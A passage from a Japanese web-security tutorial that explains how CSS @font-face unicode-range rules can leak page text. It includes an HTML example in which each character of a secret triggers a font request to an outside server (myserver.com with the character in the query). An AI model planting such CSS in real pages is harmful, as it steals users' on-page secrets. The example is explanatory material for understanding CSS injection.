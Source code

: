 `&` のユニコードは `U+0026` なので、`&` という文字だけが異なるフォントで表示され、残りは同じフォントを使用します。

フロントエンド開発者は以前このテクニックを使用したことがあるかもしれません。例えば、英語と中国語を異なるフォントで表示するために。このテクニックは、次のようにページ上のテキストを盗むためにも使用できます。

```html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "f1";
        src: url(https://myserver.com?q=1);
        unicode-range: U+31;
      }

      @font-face {
        font-family: "f2";
        src: url(https://myserver.com?q=2);
        unicode-range: U+32;
      }

      @font-face {
        font-family: "f3";
        src: url(https://myserver.com?q=3);
        unicode-range: U+33;
      }

      @font-face {
        font-family: "fa";
        src: url(https://myserver.com?q=a);
        unicode-range: U+61;
      }

      @font-face {
        font-family: "fb";
        src: url(https://myserver.com?q=b);
        unicode-range: U+62;
      }

      @font-face {
        font-family: "fc";
        src: url(https://myserver.com?q=c);
        unicode-range: U+63;
      }

      div {
        font-size: 4em;
        font-family: f1, f2, f3, fa, fb, fc;
      }
    </style>
    Secret: <div>ca31a</div>
  </body>
</html>
```
